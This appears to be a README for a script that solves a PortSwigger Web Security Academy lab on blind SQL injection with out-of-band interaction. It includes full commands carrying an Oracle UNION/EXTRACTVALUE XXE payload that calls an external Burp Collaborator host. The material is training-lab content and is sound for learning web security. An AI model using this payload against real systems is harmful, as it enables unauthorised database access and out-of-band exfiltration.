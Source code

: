# How to run script.py

### Blind SQL injection with out-of-band interaction

Open Burp Collaborator: Open Burp Suite -> Click Burp (top left button) -> Click Burp Collaborator Client -> Click Copy to clipboard -> Now Burp Collaborator Server is running and waiting for requests

Replace the [0-9a-z]{30}.burpcollaborator.net address with the copied one

No Proxy:
- `python3 script.py -u "https://0a8f003104742a39c0f9d8c900b50066.web-security-academy.net/" -c "'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d\"1.0\"+encoding%3d\"UTF-8\"%3f><\!DOCTYPE+root+[+<\!ENTITY+%25+remote+SYSTEM+\"http%3a//6houbzn1x291bi1jiwrev4seu50vok.burpcollaborator.net/\">+%25remote%3b]>'),'/l')+FROM+dual--"`

Proxy:
- `python3 script.py -u "https://0a8f003104742a39c0f9d8c900b50066.web-security-academy.net/" -c "'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d\"1.0\"+encoding%3d\"UTF-8\"%3f><\!DOCTYPE+root+[+<\!ENTITY+%25+remote+SYSTEM+\"http%3a//6houbzn1x291bi1jiwrev4seu50vok.burpcollaborator.net/\">+%25remote%3b]>'),'/l')+FROM+dual--" -p 127.0.0.1:8080`
